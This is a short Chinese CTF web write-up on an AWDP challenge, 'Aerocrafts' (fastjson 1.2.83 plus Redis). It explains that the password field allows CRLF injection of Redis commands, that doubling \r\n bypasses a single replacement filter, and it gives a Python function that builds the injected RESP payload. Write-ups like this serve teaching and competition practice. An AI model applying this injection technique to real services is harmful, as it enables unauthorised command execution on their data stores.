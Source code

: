 ```yaml
---
title: "2023 中华武术杯 Web Writeup"
date: 2023-10-17T21:24:23+08:00
lastmod: 2023-10-17T21:24:23+08:00
draft: false
author: "X1r0z"

tags: ['awdp', 'domain', 'windows', 'mssql']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 中华武术杯 Web Writeup (AWDP + 靶场)



## AWDP

### Aerocrafts

fastjson 1.2.83 + redis

auth 路由传入 password 的时候没有限制 CRLF 字符, 所以可以注入任意 redis 命令

![image-20231017162840634](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310171628730.png)

`\r\n` 只替换了一次, 双写就可以绕过

```python
def gen_payload(payload):

    redis_payload = ''

    for i in payload.split('\n'):
        arg_num = '*' + str(len(i.split(' ')))
        redis_payload += arg_num + '\r\r\n\n'
        for j in i.split(' '):
            arg_len = '$' + str(len(j))
            redis_payload += arg_len + '\r\r\n\n'
            redis_payload += j + '\r\r\n\n'
    
    return redis_payload
```
